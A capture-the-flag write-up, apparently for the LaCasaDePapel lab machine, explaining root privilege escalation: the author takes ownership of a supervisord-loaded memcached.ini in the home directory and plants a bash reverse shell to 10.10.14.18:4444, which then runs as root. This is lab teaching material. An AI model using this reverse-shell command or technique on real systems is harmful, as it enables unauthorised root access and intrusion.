




# 20 - PrivEsc

# Home Directory Permissions



memcached.ini root writeable only but professor is the owner of the directory. The user can delete a file in his home directory and create it again  to gain ownership on it.

# memcached.ini
```
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

# Full ownership of memcached.ini

```
lacasadepapel [~]$ mv memcached.ini  memcached.ini.old
lacasadepapel [~]$ cp memcached.ini.old  memcached.ini
```




Now professor is the owner of memcached.ini, memcached.ini.old is kept  for backup

# Reverse shell in memcached.ini
```sql
lacasadepapel [~]$ cat memcached.ini
[program:memcached]
command = bash -c "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
```

# Pspy shows how our reverse shell is executed


Something, probably in /etc/supervisord.conf, is executing the commands in memcached.ini

# /etc/supervisord.conf is not readable
```
lacasadepapel [~]$ cat /etc/supervisord.conf 
cat: can't open '/etc/supervisord.conf': Permission denied
```

# Root shell




# /etc/supervisord.conf
```
bash-4.4# cat /etc/supervisord.conf

[unix_http_server]
file=/run/supervisord.sock

[supervisord]
logfile=/dev/null
logfile_maxbytes=0
user=root

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[supervisorctl]
serverurl=unix:///run/supervisord.sock

[include]
files = /home/professor/*.ini
```

My assumption turns out to be correct. Supervisord reads `.ini` files in professor's home directory. There is a command directive that executes the reverse shell.